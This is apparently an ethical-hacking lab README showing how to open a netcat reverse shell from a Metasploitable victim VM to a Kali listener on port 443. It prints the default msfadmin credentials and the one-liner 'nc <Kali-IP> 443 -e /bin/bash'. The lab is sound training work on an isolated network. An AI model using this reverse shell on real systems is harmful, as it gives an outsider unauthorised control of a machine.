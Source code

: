 ## EH – Netcat Shell 01: Reverse Shell

## Objective
Learn how to use Netcat to establish a **reverse shell** on a target machine.

## Purpose
Netcat is a computer networking utility for reading/writing to network connections using TCP or UDP.

## Tools
- Kali Linux VM (Attacker)
- Metasploitable VM (Victim)

## Steps

### 1. Setup
Put both VMs on the same **host-only network**.  
Login to Metasploitable: `msfadmin/msfadmin`.

### 2. Start Listener on Kali
`bash
ifconfig     # find Kali IP
nc -l -v -n -p 443

3. Connect from Victim

On Metasploitable:

sudo nc <Kali-IP> 443 -e /bin/bash

4. Verify

On Kali, test:

whoami
id


✅ You now control the victim from attacker.
